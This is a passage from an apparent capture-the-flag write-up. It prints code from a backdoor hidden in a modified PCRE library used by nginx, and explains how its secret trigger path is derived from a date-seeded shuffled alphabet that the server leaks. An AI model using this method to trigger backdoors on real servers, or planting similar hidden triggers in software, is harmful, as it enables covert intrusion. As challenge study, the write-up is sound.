 The image is getting clear, we need to get our hands on the string `m`, that will be our cash cow.

we see here:

```c
int rc = pcre_exec(bd_re, NULL, subject, strlen(subject), 0, 0, ov, sizeof(ov) / sizeof(ov[0]));
```

that our input (in the context of our challenge its the path given by us), gets filtered using the `bd_re` regex pattern, which gets assigned here:

`pcre_compile.c`:

```c
    if (bd_re == NULL) {
        bd_re = 1;
        int f = open("/proc/self/maps", O_RDONLY);
        strcpy(b, "^/");
        strcat(b, alph);
        strcat(b, "/([\$a-zA-Z0-9;:/.|]+)");
        char * e = 0;
        int eo;
        bd_re = pcre_compile(b, PCRE_MULTILINE, & e, & eo, 0);
```

the `pcre_compile` function just converts the regex string to a type that can get accepted by other prce functions, so we have `bd_re` equals to `^/someunknownstring/([\$a-zA-Z0-9;:/.|]+)`, but we still need to know the value of `alph`, which gets included from the `b.h` file:

```c
char * alph =
#include "b.h"
;
char * date_s =
#include "d.h"
;
```

to know the value of `b.h` and `d.h`, we could return to the `clean-tests` file (remember!):

```bash
echo $(($(date +%s) / 86400)) | md5sum | cut -d' ' -f1 |  awk '{ for(i=0;i<10;i++) printf "%s", $1 }' > a
echo '"'$(echo "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789" | grep -o . | shuf --random-source ./a| tr -d '
')'"' > b.h; rm -f ./a;
echo '"'$(date +"%m.%d.%y" | tr -d '0')'"' > d.h
```

after running these commands individually, we understand that `alph` equal to kinda of a hash of the date when the file was created, and luckily we can creat it our self by knowing the date that gets returned to us in each request appended to `ngninx/`

```c
    snprintf(p, 21, "ni/nginx/%s                            ", date_s);
```

and as shown in this picture:
